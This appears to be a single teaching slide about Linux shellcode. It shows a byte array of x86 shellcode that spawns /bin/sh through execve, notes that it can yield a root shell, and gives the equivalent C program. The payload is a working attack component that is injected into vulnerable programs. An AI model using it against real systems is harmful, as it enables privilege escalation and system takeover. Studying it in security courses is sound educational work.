

# creating a shell
char shellcode[] =
“\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b”
“\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e”
”\x2f\x73\x68”

Shellcode can be looked at as a sequence of binary instructions;
The purpose of this shellcode is to create a command shell in Linux.
It can be used to create a shell with root or administrator privileges.
int main(){
  char *name[2];

  name[0] = "/bin/sh";
  name[1] = 0x0;
  execve(name[0], name, 0x0);
  exit(0);
}